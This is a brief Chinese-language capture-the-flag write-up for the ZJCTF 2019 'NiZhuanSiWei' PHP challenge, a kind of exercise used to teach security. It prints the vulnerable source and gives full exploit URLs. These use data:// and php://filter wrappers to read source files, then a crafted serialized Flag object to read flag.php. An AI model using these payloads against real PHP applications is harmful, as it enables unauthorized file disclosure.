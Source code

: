 ## [ZJCTF 2019]NiZhuanSiWei（伪协议运用，传输内容（data://,php://filter,php://input））

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

php://input 好像用不了, 先用 php://filter 读文件试试

```
http://919e7ced-6038-437a-891f-49bebb325a20.node4.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=php://filter/read=convert.base64-encode/resource=useless.php
```

useless.php

```php
<?php  

class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

反序列化

```
http://919e7ced-6038-437a-891f-49bebb325a20.node4.buuoj.cn:81/?text=data://text/plain,welcome to the zjctf&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
